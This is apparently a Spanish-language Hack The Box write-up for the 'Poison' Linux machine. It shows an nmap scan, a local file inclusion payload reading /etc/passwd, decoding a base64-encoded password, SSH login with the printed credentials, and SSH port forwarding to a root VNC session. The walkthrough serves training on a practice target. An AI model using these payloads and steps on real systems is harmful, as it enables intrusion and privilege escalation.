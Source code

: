 ```yaml
---
layout: post
title: "Poison"
subtitle: 'HackTheBox - Medium Machine - Linux'
date: 2020-03-29 12:00:00
author: "TheusZero"
header-img: "images/post/poison/1.png"
catalog: true
comments: true
tags:
  - Linux
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


# Poison

Es una maquina divertida, tiene varios caminos que te puedes plantear, sin embargo creo que lo mas importante es que
te puede enseñar muxo, en el sentido del privesec y del enum.

> Buena maquina, divertida y completa. Mis respetos al creador :D

## Enumeracion


#### NMAP
```vim
# Nmap 7.70 scan initiated Sat Sep 15 14:45:00 2018 as: nmap -n -vvv -sS -Pn --min-rate 5000 -oA nmap/initial 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up, received user-set (0.073s latency).
Scanned at 2018-09-15 14:45:00 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Sep 15 14:45:00 2018 -- 1 IP address (1 host up) scanned in 0.58 seconds
```

Con esto notamos que, solo tenemos dos vias, explorar el HTTP y entrar por ssh o por alguna reverse shell.

Desde aqui hay varios caminos, sin embargo explicare el que yo realice para lograr hacer la maquina.

#### Web
Ya revisando lo que es la web, podemos ver lo siguiente:

![](/TheusZero/images/post/poison/2.png)

revisando los ***.php** podemos ver que uno de ellos de nombre **listfiles.php** tiene como informacion lo siguiente

> Array
  (
      [0] => .
      [1] => ..
      [2] => browse.php
      [3] => index.php
      [4] => info.php
      [5] => ini.php
      [6] => listfiles.php
      [7] => phpinfo.php
      [8] => pwdbackup.txt
  )

Aquel **pwdbackup.txt** parece mega sospechoso, en el encontramos que nos muestra los archivos de una forma sospechosa tambien.

Lo primero que hice fue cambiar la url mandando la misma peticion del GET pero en la parte de **.php?file=** le mande lo sgte:
> **http://10.10.10.84/browse.php?file=/etc/passwd**

como lo crei, me leyo el archivo /etc/passwd y logre cachar que habia un user llamado:
> **charix**

ya con esta informacion me puse a investigar el **pwdbackup.txt** que habia dejado botado, obteniendo de el lo sgte:

```vim
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

brigido, a simple vista parece un base64 asi que me dispuse a hacer la conversion las 13 veces que pedia.

> **wget http://10.10.10.84/pwdbackup.txt**
>> **tail -n +3 pwdbackup.txt |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d**
>>> **Charix!2#4%6&8(0**

## User
No se me ocurrio otra cosa que hacer, que intentar acceder al ssh con las credenciales obtenidas.
**charix:Charix!2#4%6&8(0**
Con eso logramos entrar y obtener el user.txt

## Root

El root me parecio algo bacan, ya que es mucho mas complejo que el user.

al entrar al home del user, podemos encontrar un archivo llamado **secret.zip** al descomprimirlo es un mensaje ecnriptado o un tipo de passwd que no conozco, asi que me dispuse a enumerar un poco la maquina.
```vim
charix@Poison:~ % netstat -anp tcp | grep -i listen
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN 
```

pense en investigar los puertos 5901 y 5801, pero el camino que recorri fue el del 5901 ya que cache que bajo la maquina corre el siguiente servicio:

```vim
charix@Poison:~ % ps auxww
USER    PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
...
root    545   0.0  0.9  23620  9032 v0- I    15:13    0:00.09 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport
...
```

entrando en mi maquina, hice un [PortForwarding](https://theuszer0.github.io/TheusZero/CheatSheets/#ssh) para abrir el puerto 5901 bajo mi maquina.

#### VNC

el servicio corresponde a un [VNC](https://www.realvnc.com/es/connect/) , que a primera vista parece un xterm y se define como un software de acceso remotO.

asi que, vamos al port forwardinggggg...
```vim
ssh -L 5901:localhost:5901 -N -f -l charix 10.10.10.84
```
ya montado el proceso, usaremos la herramienta vncviewer.
```vim
vncviewer localhost:5901
```
de momento nos pide una password y creo que el **secret.zip** debe tenerla.

#### descargar el .zip

para descargar el .zip ocupe el siguiente comando, todo va incluido
```vim
sshpass -p 'Charix!2#4%6&8(0' scp -oStrictHostKeyChecking=no charix@10.10.10.84:secret.zip .
```
```vim
root@kali:~# cat secret
[|Ֆz!
```
```vim
root@kali:~# xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
```
la clave esta codificada en algun algoritmo que de principio no debemos tocar, asi que me dispuse a ingresar al VCN con la password.

#### Password VCN
```vim
vncviewer -passwd secret 127.0.0.1:1
```
listo, entramos como root y podemos leer todo UWU.
